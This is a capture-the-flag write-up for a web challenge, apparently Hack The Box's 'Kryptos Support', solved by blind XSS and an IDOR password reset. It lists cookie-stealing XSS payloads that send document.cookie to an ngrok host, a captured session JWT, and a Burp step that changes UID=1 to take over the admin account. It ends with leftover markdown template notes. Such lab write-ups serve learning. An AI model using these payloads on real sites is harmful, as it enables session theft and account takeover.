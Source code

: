 # Kryptos Support (web 300 points) 

## Description

Random intergalatic garbage about a website.

## Resources

Docker instance provided when you start the challenge

## Solution

Navigating to the website you are presented with a Kryptos Vault Support page that contains text about submitting tickets, with an input box and a submit button. Submitting garbage as a test doesn't return anything of value. The text on the page changes to say that an admin will view the ticket shortly. Nothing is refelcted or rendered back on the page.

In the top left corner is a button labelled "backend" that links to a /login page. I fiddled with some genereic SQLi commands but again the feedback is well sanitised so i cannot glean any information about whether or not the user is registered etc.

I'm going to assume that this is a Cross-Site Scripting (XSS) challenge referred to as Blind XSS as there is no feedback on the page as to what my commands are doing. This means i am going to need to spin up a server and host a page to catch redirects that i will insert as a payload into the input field.

[Here is a great reference for BXSS commands/payloads](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

ngrok bxss hosting tool

>python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

>ngrok http 8000

<p align="center"><img src="_images/1payload.png"></p>
<p align="center"><img src="_images/emailpdf.png"></p>
<p align="center"><img src="_images/emailpdf.png"></p>

payload:  
[Reference here for BXSS payloads](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

```
"><script src="https://56f5-59-102-23-9.au.ngrok.io"</script>
```

"><script src="https://56f5-59-102-23-9.au.ngrok.io"+document.cookie;alert(document.cookie);</script>  
"><img src="https://56f5-59-102-23-9.au.ngrok.io"+document.cookie;>  
"<script>var i=new Image;i.src="https://56f5-59-102-23-9.au.ngrok.io"+document.cookie;</script>  

Worked, stole JSON cookie
<img src=x onerror="this.src='https://62ce-59-102-23-9.au.ngrok.io?'+document.cookie; this.removeAttribute('onerror');">

JSON
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI5NjM5OTB9.Lrlo9B0Y11no7QXnxOaBJR6yPJunho4PWEnS31S1Mh4


parse token
https://jwt.io/

user: moderator
in browser developer options, create cookie under "Cookies" Name:session Value:<insertJWT>
browse to /tickets

settings
provides password change functionality without requiring current password. view source shows UID=100 for the user moderator.
close ngork and python server. load burpsuite. change password to password and intercept with burp, change UID=1 and admin password is changed. nav to login page and authenticate as admin:password


Flag = HTB{x55_4nd_id0rs_ar3_fun!!}


```
ngrok                                                                        (Ctrl+C to quit)
                                                                                             
Session Status                online                                                         
Session Expires               1 hour, 50 minutes                                             
Terms of Service              https://ngrok.com/tos                                          
Version                       3.0.3                                                          
Region                        Australia (au)                                                 
Latency                       46.555892ms                                                    
Web Interface                 http://127.0.0.1:4040                                          
Forwarding                    https://a3f8-59-102-23-9.au.ngrok.io -> http://localhost:80    
                                                                                             
Connections                   ttl     opn     rt1     rt5     p50     p90                    
                              2       0       0.00    0.00    0.00    0.00                   
                                                                                             
HTTP Requests                                                                                
-------------                                                                                
                                                                                             
GET /                          502 Bad Gateway                                               
GET /favicon.ico               502 Bad Gateway     
```




<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>

<p align="center"><img src="_images/emailpdf.png"></p>



drop down list
<details>
  <summary>click here</summary>

+ text
+ text
</details>


link to named section
name it
<a id="zsteg"></a>
link to it
<a href="#zsteg">zsteg</a>
